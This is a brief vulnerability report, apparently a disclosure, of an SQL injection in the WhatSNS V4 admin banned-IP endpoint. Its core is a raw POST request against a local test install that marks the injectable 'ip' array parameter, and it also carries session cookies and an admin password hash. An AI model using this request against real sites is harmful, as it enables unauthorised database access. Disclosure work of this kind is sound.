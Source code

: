 # WhatSNS V4 sqlinject

Project official: [https://www.whatsns.com](https://www.whatsns.com/)

project address: <https://gitee.com/huangyouzhi/whatsns>

## $ip variable

>
>   URL:http://127.0.0.1/whatsns/index.php?admin_banned/add.html
![](/whatsns/img/w1.png)

- POST:

```
POST /whatsns/index.php?admin_banned/add.html HTTP/1.1
Host: 127.0.0.1
Content-Length: 84
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/whatsns/index.php?admin_banned/add.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1557362955; UIA=25w5_%5D.0a%5Bea51%2C7%2F-0b54%60%2AX4%5D%5D_1%28b7d2%60%2F%2Cb2b%5C83b%2F%28a%29%2A-a66%2C%29073_%5Cc%2F306%60; bdshare_firstime=1557799980117; admin=admin; pass=96e79218965eb72c92a549dd5a330112; _qddaz=QD.hseds1.6f7ht3.jwptla86; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1560155578; _ga=GA1.1.1218018200.1562750483; PHPSESSID=h3hd7t6ptn12padakioc0ma8t1; Hm_lvt_b60316de6009d5654de7312f772162be=1570587747,1570678141,1570858233,1571039155; CmsCode=gab; Hm_lpvt_b60316de6009d5654de7312f772162be=1571039517; whatsnssid=d8bab68b1a953728; whatsnsauth=61e6Qq7XJ%2FsTmG%2BeCWSu507H0taq%2B6l%2BZYn%2Bm7BiW8Tca69D47kPL9pe3n0VoJK9ufoUEfZH0r2xM%2BiGETq5
Connection: close

ip%5B%5D=1&ip%5B%5D=2&ip%5B%5D=3&ip%5B%5D=4&expiration=30&submit=%E6%B7%BB+%E5%8A%A0
```

verification: 

![](https://github.com/YangSirrr/opendebug/blob/sourece/w2.png)

